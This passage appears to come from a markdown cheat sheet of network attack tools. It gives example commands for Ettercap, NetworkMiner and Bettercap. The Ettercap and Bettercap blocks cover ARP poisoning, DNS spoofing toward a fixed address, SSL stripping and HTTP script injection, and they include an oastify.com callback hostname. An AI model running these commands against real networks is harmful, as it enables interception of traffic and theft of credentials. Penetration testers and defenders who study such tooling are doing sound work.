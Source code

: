 ### 🕷️ Ettercap
**Description:** Comprehensive suite for man-in-the-middle attacks on LAN networks, supporting ARP poisoning, DNS spoofing, and traffic interception.

**Example Usage:**
```bash
# ARP poisoning attack
ettercap -T -M arp:remote /192.168.1.1// /192.168.1.100//

# DNS spoofing with target redirection
echo "*.target-site.com A 192.168.1.50" >> /etc/ettercap/etter.dns
echo "rnivqlhaedmb4yc3ezjzgji7xy3prff4.oastify.com A 192.168.1.50" >> /etc/ettercap/etter.dns
ettercap -T -M arp:remote -P dns_spoof /192.168.1.1// /192.168.1.100//

# SSL stripping attack
ettercap -T -M arp:remote -P sslstrip /192.168.1.1// //

# GUI mode for easier operation
ettercap -G
```

### 🌐 NetworkMiner
**Description:** Network forensics tool that extracts artifacts from network traffic captures, including files, images, messages, and credentials.

**Example Usage:**
```bash
# Start NetworkMiner GUI application
mono NetworkMiner.exe

# Command-line version for automated analysis
mono NetworkMinerCLI.exe -r capture.pcap -o output_directory

# Extract files from PCAP
mono NetworkMinerCLI.exe --pcap capture.pcap --output extracted_files/

# Analyze target site traffic
mono NetworkMinerCLI.exe -r target_traffic.pcap --keyword "oastify.com"
```

### ⚔️ Bettercap
**Description:** Modern network attack and monitoring framework with support for WiFi, Bluetooth, and network reconnaissance.

**Example Usage:**
```bash
# Start interactive session
sudo bettercap

# ARP spoofing configuration
arp.spoof on
set arp.spoof.targets 192.168.1.100

# DNS spoofing with target redirection
set dns.spoof.domains *.target-site.com,*.oastify.com
set dns.spoof.address 192.168.1.50
dns.spoof on

# HTTP proxy with script injection
set http.proxy.script inject.js
http.proxy on

# WiFi reconnaissance
wifi.recon on

```
